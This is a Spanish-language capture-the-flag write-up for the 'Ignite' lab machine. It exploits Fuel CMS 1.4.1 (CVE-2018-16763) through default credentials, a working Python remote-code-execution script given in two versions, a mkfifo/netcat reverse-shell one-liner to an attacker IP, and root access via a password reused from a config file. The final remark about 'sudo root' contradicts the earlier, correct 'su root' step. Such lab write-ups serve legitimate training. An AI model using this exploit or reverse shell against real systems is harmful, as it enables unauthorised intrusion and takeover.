

# ignite

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>


<figure><figcaption></figcaption></figure>

el robots.txt nos da una rura /fuel que parece tener un panel de autenticación de fuel&#x20;

busco las credenciales por defecto de fuel cms que son admin admin&#x20;

<figure><figcaption></figcaption></figure>

con el siguiente exploit conseguimos ejecucion remota de comandos&#x20;

```
# Exploit Title: fuel CMS 1.4.1 - Remote Code Execution (1)
# Date: 2019-07-19
# Exploit Author: 0xd0ff9
# Vendor Homepage: https://www.getfuelcms.com/
# Software Link: https://github.com/daylightstudio/FUEL-CMS/releases/tag/1.4.1
# Version: <= 1.4.1
# Tested on: Ubuntu - Apache2 - php5
# CVE : CVE-2018-16763


import requests
import urllib

url = "http://10.10.168.179/"
def find_nth_overlapping(haystack, needle, n):
    start = haystack.find(needle)
    while start >= 0 and n > 1:
        start = haystack.find(needle, start+1)
        n -= 1
    return start

while 1:
        xxxx = raw_input('cmd:')
        burp0_url = url+"/fuel/pages/select/?filter=%27%2b%70%69%28%70%72%69%6e%74%28%24%61%3d%27%73%79%73%74%65%6d%27%29%29%2b%24%61%28%27"+urllib.quote(xxxx)+"%27%29%2b%27"
        proxy = {"http":"http://127.0.0.1:8080"}
        r = requests.get(burp0_url, proxies=proxy)

        html = "<!DOCTYPE html>"
        htmlcharset = r.text.find(html)

        begin = r.text[0:20]
        dup = find_nth_overlapping(r.text,begin,2)

        print r.text[0:dup]
                           
```

con este exploit nos daba ejecución remota de comandos.

con mkfifo nos entablamos una reverse shell en nuestra maquina de atacante:&#x20;

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.0.2.15 443 >/tmp/f
```

tambien he visto una resolución de la maquina en la que compartiendo un archivo mediante http con python ganaba acceso de una forma más sencilla utilizando wget&#x20;


podiamos escalar privilegios debido a un archivo de configuración de fuel cms en la que exponia para el administrador la contraseña mememe&#x20;

Hay que tener muy en cuenta que no me dejaba escalar privilgeios debido a que estaba intentando hacer `sudo su` y la contaseña y esta no es la forma correcta porque te pide la contraseña de tu usuario actual. Hay que hacerlo con `su root` y la contraseña, de esta forma ganabamos privilegios de root

```
import requests
import urllib.parse

url = "http://10.10.179.27"

while True:
    # Use input() for Python 3
    cmd = input('cmd: ')
    
    # Encode the command properly for the URL
    burp0_url = url + "/fuel/pages/select/?filter=%27%2b%70%69%28%70%72%69%6e%74%28%24%61%3d%27%73%79%73%74%65%6d%27%29%29%2b%24%61%28%27" + urllib.parse.quote(cmd) + "%27%29%2b%27"
    
    # Send request without proxy
    r = requests.get(burp0_url)
    
    # Find the starting point of the relevant output
    split_marker = '<div style="border:1px solid #990000;padding-left:20px;margin:0 0 10px 0;">'
    
    # Extract everything up to the split marker
    if split_marker in r.text:
        command_output = r.text.split(split_marker)[1]
        # Now find the exact command output after the </div> tag
        end_marker = '</div>'
        if end_marker in command_output:
            final_output = command_output.split(end_marker)[1]
            print(final_output.strip())
        else:
            print("End marker not found in the response.")
    else:
        print("Marker not found in response")

```

en los archivos de configuración de fuel concretamente en la ruta&#x20;

```
/var/www/html/fuel/application/config/database.php
```

encontramos la contraseña mememe la cual es reutilizada por el usuario root para su usaurio en el sistema.


problema: he intentado hacer sudo su y la contraseña y no ha funcionado, ha funcionado con sudo root y la contraseña
